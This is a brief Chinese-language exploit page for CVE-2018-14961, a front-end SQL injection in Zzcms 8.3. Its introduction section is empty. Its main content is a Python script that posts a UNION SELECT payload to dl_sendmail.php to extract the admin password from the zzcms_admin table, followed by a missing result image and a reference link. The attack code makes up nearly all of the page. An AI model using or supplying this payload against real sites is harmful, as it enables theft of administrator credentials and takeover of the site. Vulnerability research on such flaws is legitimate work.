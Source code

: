 （CVE-2018-14961）Zzcms 8.3 前台sql注入
=======================================

一、漏洞简介
------------

二、漏洞影响
------------

Zzcms 8.3

三、复现过程
------------

    #!/usr/bin/env python
    #Author:Sublime
    #coding:utf-8
    import requests as req

    url = "http://0-sec.org:8080/dl/dl_sendmail.php"
    cookies = {'UserName':'test','PassWord':'81dc9bdb52d04dc20036dbd8313ed055'}
    data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

    q = req.post(url,data,cookies=cookies,allow_redirects=False)
    print q.status_code
    print q.content

测试结果为：

![](./.resource/(CVE-2018-14961)Zzcms8.3前台sql注入/media/rId24.png)

参考链接
--------

> <https://www.anquanke.com/post/id/156660>
